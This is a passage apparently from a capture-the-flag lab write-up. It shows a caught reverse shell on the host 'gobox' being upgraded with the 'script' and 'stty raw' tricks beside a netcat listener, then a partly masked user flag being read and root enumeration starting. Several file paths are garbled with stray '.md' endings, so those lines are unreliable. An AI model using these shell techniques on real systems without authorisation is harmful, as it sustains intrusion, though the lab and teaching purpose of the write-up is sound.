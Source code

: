 

I'll upgrade the shell with the `script` trick:



    www-data@gobox:/opt/website$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@gobox:/opt/website$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@gobox:/opt/website$ 



And grab `user.txt`:



    www-data@gobox:/home/ubuntu$ cat user.txt
    d6b91626************************



## Shell as root

### Enumeration

#### Filesystem

There's nothing else in the ubuntu user's home directory, so I'll turn
the the web servers. Interestingly, there's nothing in `/var/www.md`:



    www-data@gobox:~.md$ ls -la
    total 12
    drwxr-xr-x 2 root root 4096 Aug 23 14:43 .
    drwxr-xr-x 3 root root 4096 Aug 23 14:43 ..
    -rw-r--r-- 1 root root  612 Aug 23 14:43 index.nginx-debian.md



And that's the only folder in `/var/www`:



    www-data@gobox:~$ ls 
   .md



`/etc/nginx/sites-enabled` has the config for the various hosts:



    www-data@gobox:/etc/nginx/sites-enabled$ ls
    default
